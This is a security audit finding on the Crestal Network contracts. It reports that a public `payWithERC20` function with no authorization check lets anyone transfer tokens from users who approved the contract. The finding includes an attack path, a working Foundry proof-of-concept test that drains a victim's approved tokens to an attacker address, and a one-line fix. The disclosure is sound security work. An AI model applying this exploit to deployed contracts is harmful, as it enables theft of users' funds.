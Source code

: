 Funny Sepia Buffalo

High

# [H-01] - Missing Access Control in `payWithERC20` Allows Unauthorized Token Transfers Leading to Theft of User-Approved Funds

### Summary

The lack of access control and authorization in the `payWithERC20` function inside the `Payment` contract will cause direct loss of funds for users who have approved any contract inheriting the `Payment` contract to spend their ERC-20 tokens as an attacker will exploit this to transfer approved tokens to themselves without the user’s consent.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L23C1-L32C6

----------------------------

Contracts in Scope affected by this issue:
- `BlueprintV5`
- `Blueprint`
- `BlueprintCore`
- `Payment`

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/e2487a08-58c1-4a39-a3ab-bc65d06b455b)

### Root Cause

In `Payment.sol`, the `payWithERC20` function is public and lacks any checks to ensure that the caller (`msg.sender`) is authorized to initiate a transfer from the specified `fromAddress`. This allows any caller to transfer tokens from a user who has approved the contract, as long as the allowance exists.

### Internal Pre-conditions

1. A user (the victim) needs to call the ERC-20 token’s `approve` function to set the allowance for the `BlueprintV5` contract to be at least a positive value (greater than zero).
2. There needs to be a short window of exploitation where the user has 'approved' the contract to spend tokens, but  has not spent their tokens yet

### External Pre-conditions

N.A.

### Attack Path

1. The victim approves the `BlueprintV5` contract to spend a certain amount of their standard ERC-20 token 
2. The attacker identifies the victim’s address and approved amount by querying the token’s `allowance` function or monitoring `Approval` events on the blockchain.
3. The attacker calls `payWithERC20` on the `BlueprintV5` contract, specifying the ERC20 token address, the amount to transfer (up to the victims approved amount), the victim’s address as `fromAddress`, and the attacker’s address as `toAddress`.
4. The `payWithERC20` function executes `token.safeTransferFrom(fromAddress, toAddress, amount)`, transferring the tokens from the victim to the attacker.

### Impact

The victim suffers an approximate loss of 100% of tokens approved for the `BlueprintV5` contract to spend. The attacker gains this amount, effectively stealing the tokens from the victim.

---------------------------------------------------

Trust in the protocol may be lost as this attack is scalable:
- Multiple core contracts inherit the public vulnerable function
- Attackers can easily identify victims by monitoring Approval events on the blockchain or querying the allowance function. With automated tools (e.g. bots or block explorers), this process is scalable and near-instantaneous
- None of these core contracts are pausable, so the attacker can rinse and repeat
- Many users approve contracts for dApps, often leaving allowances active indefinitely, especially if unaware of the risks

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";

// Mock to simulate ETH
contract MockETH is IERC20 {
    using SafeERC20 for IERC20;

    mapping(address => uint256) private _balances;
    mapping(address => mapping(address => uint256)) private _allowances;
    uint256 private _totalSupply;
    string public name = "Mock ETH";
    string public symbol = "METH";
    uint8 public decimals = 18;

    function mint(address to, uint256 amount) public {
        _totalSupply += amount;
        _balances[to] += amount;
        emit Transfer(address(0), to, amount);
    }

    function balanceOf(address account) external view override returns (uint256) {
        return _balances[account];
    }

    function transfer(address recipient, uint256 amount) external override returns (bool) {
        require(_balances[msg.sender] >= amount, "Insufficient balance");
        _balances[msg.sender] -= amount;
        _balances[recipient] += amount;
        emit Transfer(msg.sender, recipient, amount);
        return true;
    }

    function allowance(address owner, address spender) external view override returns (uint256) {
        return _allowances[owner][spender];
    }

    function approve(address spender, uint256 amount) external override returns (bool) {
        _allowances[msg.sender][spender] = amount;
        emit Approval(msg.sender, spender, amount);
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) external override returns (bool) {
        require(_allowances[sender][msg.sender] >= amount, "ERC20: insufficient allowance");
        require(_balances[sender] >= amount, "ERC20: insufficient balance");
        _allowances[sender][msg.sender] -= amount;
        _balances[sender] -= amount;
        _balances[recipient] += amount;
        emit Transfer(sender, recipient, amount);
        return true;
    }

    function totalSupply() external pure returns (uint256) {
        return 0; // ommitted (not used)
    }

}

contract StealAllowancePocTest is Test {
    MockETH public token;
    BlueprintV5 public blueprintV5;
    address public alice = address(0x1);       // --- Victim ---
    address public anonHacker = address(0x2);  // -- Attacker --
    uint256 public constant VICTIMS_APPROVED_AMOUNT = 10 ether; // 10 ETH worth of tokens

    function setUp() public {
        // Deploy the mock token and BlueprintV5 contract
        token = new MockETH();
        blueprintV5 = new BlueprintV5();

        // Mint 10 ETH worth of tokens to Alice
        token.mint(alice, 10 ether);

        // Simulate Alice approving the BlueprintV5 contract to spend 10 ETH
        vm.prank(alice); // Impersonate Alice
        token.approve(address(blueprintV5), VICTIMS_APPROVED_AMOUNT);
    }

    function testExploit() public {
        // Log initial balances
        uint256 aliceInitialBalance = token.balanceOf(alice);
        uint256 hackerInitialBalance = token.balanceOf(anonHacker);
        emit log_named_uint("Alice's initial balance", aliceInitialBalance);
        emit log_named_uint("AnonHacker's initial balance", hackerInitialBalance);
        assertEq(aliceInitialBalance, 10 ether, "Alice should start with 10 ETH");
        assertEq(hackerInitialBalance, 0, "Hacker should start with 0 ETH");

        // -------------------------------------------------------------------------- //
        //  --- AnonHacker exploits the vulnerability in the BlueprintV5 contract --- //
        // -------------------------------------------------------------------------- //
        vm.prank(anonHacker); // Impersonate AnonHacker
        blueprintV5.payWithERC20(
            address(token),             // ERC20 Token address
            VICTIMS_APPROVED_AMOUNT,    // Amount to steal (10 ETH)
            alice,                      // From Alice
            anonHacker                  // To AnonHacker
        );

        // Log and verify final balances
        uint256 aliceFinalBalance = token.balanceOf(alice);
        uint256 hackerFinalBalance = token.balanceOf(anonHacker);
        emit log_named_uint("Alice's final balance", aliceFinalBalance);
        emit log_named_uint("AnonHacker's final balance", hackerFinalBalance);
        assertEq(aliceFinalBalance, 0 ether, "Alice should have 0 ETH left");
        assertEq(hackerFinalBalance, 10 ether, "Hacker should have stolen 10 ETH from Alice");
    }
}
```

### Mitigation

Change `payWithERC20` to `internal` or `private` and ensure it’s only called from functions with proper authorization checks.

```diff
-    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {

```
